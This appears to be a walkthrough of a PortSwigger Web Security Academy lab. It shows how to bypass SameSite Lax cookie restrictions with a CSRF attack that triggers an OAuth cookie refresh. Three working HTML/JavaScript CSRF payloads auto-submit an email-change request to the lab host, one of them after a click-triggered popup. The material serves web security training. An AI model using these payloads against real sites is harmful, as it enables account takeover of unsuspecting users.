 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/f367a510-be16-45db-ada1-ca97047282d0)

## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/df4a28e4-e124-44bc-9e83-550ec6340fe2)


Log in using the given username and password, the page will take us to a social media page for loggin in.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3ad79edf-3f92-478d-80ca-30e903b17200)

Submit a update email request with some random email id.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/319a2790-3f77-40dd-a7b4-ef4d49c5854f)

The email update `POST` request doesn't have any unpredictable tokens.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e7bebe28-ede1-4f4c-a9e0-4a908f6b5259)

Use the following script in the body section of the exploit server for a basic CSRF attack

```Javascript
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a7e66e97-60a2-4d23-a374-d204f3bc1213)

The email has been changed to the one we specified.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8c2b0285-a916-48e4-9d54-6e4770cb90b5)

The `GET /oauth-callback?code=[...]` request at the end of the OAuth flow doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/acdff665-726a-4da6-acf6-5e7cf0a75799)

`/social-login` is the one that automatically initiates the full OAuth flow.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b71be57d-9f57-4eb4-945f-cb76671d1078)

Use the following script in the body of the exploit server for causing an email change request.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="faked@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/3a140290-68df-4c68-ba8f-85bb0a4cbcfd)

The initial request is blocked as a popup.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2bed33c3-7be1-4322-871b-af2ec4f35896)

Even though the pop-up was blocked the CSRF attack still works.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/59f9405f-9c63-4ba2-9f5e-19ae9a30be4a)

The pop-up was blocked because there is no interaction with the page. Use the following script in the body of the exploit server which will enable an interaction with the webpage.

```Javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pranked@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

Delivering the it to the victim will finish the lab and cause the CSRF attack
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4d154309-beb9-47a5-83b5-97f2bb442857)

When inspecting the `POST /my-account/change-email` we can see a new session cookie has been created.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/89e4859b-3300-42b1-bba0-c5551f0a9ddc)

Deliver the exploit to the victim to solve the lab

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c1a03235-0cb4-4e64-bbe2-f5a3c364a5dc)
